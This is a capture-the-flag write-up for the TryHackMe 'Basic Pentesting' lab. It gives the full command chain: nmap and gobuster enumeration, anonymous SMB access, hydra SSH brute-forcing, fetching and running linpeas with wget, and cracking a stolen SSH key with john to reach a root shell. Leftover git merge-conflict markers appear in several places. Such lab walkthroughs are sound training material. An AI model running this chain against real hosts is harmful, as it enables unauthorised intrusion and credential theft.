

# Writeup for [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) from [Try Hack Me](https://tryhackme.com)

## Table of Contents
[Setting Up](#setting-up)  
[Information Gathering and Enumeration](#information-gathering-and-enumeration)  
[Gaining Access](#gaining-access)  
[Privilege Escalation](#privilege-escalation)  

## Setting Up
1. Make sure you are connected to the TryHackeMe VPN Network.
2. Make sure you have deployed the machine and there is a valid IP Address that you can hit.
3. If any of this sound unfamiliar, please consult the Try Hack Me help page.

## Information Gathering and Enumeration
To start things off, we should run an nmap scan on the machine.  
```
nmap -v -sC -sV -oN nmap/initial 10.10.2.82
```  
>Legend:
>1. -v -> verbose mode
>2. -sC -> Use nmap default script
>3. -sV -> enumerate service versions
>4. -oN -> output normal format in the nmap directory with the file called initial
>5. 10.10.2.82 -> IP address of the victim machine

After running the nmap scan, we should see our results in the nmap directory.  
I am using `less` to view the results.

  

We can see quite a few services running on this server. But I would like to start with those http services on port 80 and 8080. Those samba shares might also contain some juicy info.  
We should hit that http server on port 80 by searching the victim IP address in our web browser with the http schema (http://10.10.2.82).  

We see a page that says that it is undergoing maintencance.    

  


If we view the page source for this particular page, then we could see some comments from the devs.    

  

Based on this comment, we could assume that there will be a developers page or something of the sort. So let's investigate.  
I'm going to use a tool called `gobuster` to fuzz directories.
```
gobuster dir -u http://10.10.2.82 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/port80-root
```
>Legend:
>1. dir -> specify directory fuzzing mode
>2. -u -> url
>3. -w -> wordlist to use ( I use [SecLists](https://github.com/danielmiessler/SecLists) ( SecLists is also in the kali repos ))
>4. -o -> outfile to the directory gobuster with the file called port80-root

While that is running in the background we should check those samba shares.  
We can use the default `smbclient` tool on Linux.
```
smbclient -L \\\\10.10.2.82\\
```
>Legend:
>1. -L -> List shares

We could try using anonymous login by typing the password as anonymous or leaving it blank is also fine.  

  

After knowing the name of the share we could simply connect to that share with anonymous login once again.  

  

After that we can run `ls` to list all files and directories in that share, and we see staff.txt. We can download that file by running `get staff.txt`.

  

We can see potential users on the box from that staff.txt which are `jan` and `kay`. We should write that to a file to potentially brute-force passwords againts SSH on the box. I will write it to a file called creds.txt where every entry is on its own line.  

Going back to our gobuster scan, we found a peculiar directory called **development**.  

  

<<<<<<< HEAD
After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.

=======
After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.  
>>>>>>> fb5adea9dda0509668e00e19ac27f0b601f61955


  

From reading j.txt we can assume that one of the users has a weak password. We could assume J stands for the user jan and K for the user kay.
Weak password are always good for us as attackers because we can probably brute-force that password using a popular wordlist like **rockyou.txt**. ( If you are using Kali or Parrot, it's in /usr/share/wordlist/rockyou.txt )  

## Gaining Access
I'm going to use a brute-forcing tool called `hydra`. And we are going to use that file that we created, creds.txt.
```
hydra -L creds.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.2.82
```
>Legend:
>1. -L -> List of users
>2. -P -> List of passwords
>3. ssh:// -> bruteforce the SSH Protocol ( default port 22 , change if necessary )  

Give it some time depending on your hardware, and we should get some passwords.  

  

We found jan's password which we can use to authenticate via ssh to the box.
We should also update our creds.txt file for that password, just to keep track.

```
ssh jan@10.10.2.82
```  
## Privilege Escalation

Once we gain access we should try some low hanging fruit like `sudo -l` since we know jan's password. Sadly jan can't run sudo on this box, so we should try some automated enumeration to look for more low hanging fruit.  
I personally love to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git), so let's upload this script to the box.

On the directory where linpeas is stored, run `python3 -m http.server` to run a simple http server.

  

On the victim machine, navigate to a more isolated directory ( I use /dev/shm ) and run `wget http://[YOUR IP ADDRESS]:8000/linpeas.sh`
( To check your tryhackme IP address, run `ip a s tun0` on your machine.)

  

Mark the script as executable with `chmod +x linpeas.sh` and just run the script. I usually like to keep a copy of the results so I will also tee it
`./linpeas.sh | tee linpeas.log`  

There will be a lot of output from linpeas, and if you want to view the log file, we can use `less -r linpeas.log`.  

From reading the output of linpeas, I found that kay has an SSH private key accessible to us.

  

<<<<<<< HEAD

=======
>>>>>>> fb5adea9dda0509668e00e19ac27f0b601f61955
We can just cat the id_rsa file which is the private key used to authenticate via ssh, and copy it to our local box. We could see that this ssh key is encrypted by reading the first few lines of the file, so we are going to need to decrypt it.  
We are going to use a tool called John The Ripper ( john ).    

First of all we need to convert this encrypted id_rsa file to something that john can decrypt, so there is a script called ssh2john.py.
`ssh2john kay-id_rsa > kay-for_john`

We are going to use this script on a file called `kay-id_rsa` and output it to `kay-for_john`.  
After that, we could just run `john kay-for_john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

  

We got the password which is **beeswax**. Now we can use that id_rsa file to authenticate as kay on the box.
`ssh -i kay-id_rsa kay@10.10.2.82`  
Also make sure that we `chmod 600 kay-id_rsa` first so ssh doesn't whine to us that this sshkey is not protected.

  

Looking at kay's home directory, we can see a pass.bak file that looks like a password when we cat it out. We should test if this is kay's password with `sudo -l`.  
Looks like I was spot on, and we can run anything in this box as root ( from sudo ).

  

<<<<<<< HEAD
We could simply run `sudo bash` and we should get a root shell!

 
=======
We could simply run `sudo bash` and we should get a root shell!  
 
>>>>>>> fb5adea9dda0509668e00e19ac27f0b601f61955
